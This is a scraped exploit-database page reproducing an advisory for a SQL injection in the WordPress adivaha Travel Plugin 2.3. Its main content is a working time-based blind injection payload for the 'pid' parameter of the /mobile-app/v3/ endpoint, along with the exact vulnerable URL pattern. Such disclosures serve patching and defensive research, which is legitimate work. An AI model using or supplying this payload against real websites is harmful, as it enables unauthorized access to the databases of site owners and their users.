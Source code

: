 ```yaml
---
title: WordPress Adivaha Travel 2.3 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173948&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-04
fetch_date: 2025-10-04T12:00:16.391834
---
```


# WordPress Adivaha Travel 2.3 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Adivaha Travel 2.3 SQL Injection

2023-08-03 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173948
# Exploit Title: WordPress adivaha Travel Plugin 2.3 - SQL Injection
# Exploit Author: CraCkEr
# Date: 29/07/2023
# Vendor: adivaha - Travel Tech Company
# Vendor Homepage: https://www.adivaha.com/
# Software Link: https://wordpress.org/plugins/adiaha-hotel/
# Demo: https://www.adivaha.com/demo/adivaha-online/
# Tested on: Windows 10 Pro
# Impact: Database Access

## Greetings

The_PitBull, Raz0r, iNs, SadsouL, His0k4, Hussin X, Mr. SQL , MoizSid09, indoushka
CryptoJob (Twitter) twitter.com/0x0CryptoJob

## Description

SQL injection attacks can allow unauthorized access to sensitive data, modification of
data and crash the application or make it unavailable, leading to lost revenue and
damage to a company's reputation.

Path: /mobile-app/v3/

GET parameter 'pid' is vulnerable to SQL Injection

https://website/mobile-app/v3/?pid=[SQLI]&isMobile=chatbot

---
Parameter: pid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 time-based blind (query SLEEP)
Payload: pid=77A89299'XOR(SELECT(0)FROM(SELECT(SLEEP(6)))a)XOR'Z&isMobile=chatbot
---

[-] Done
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)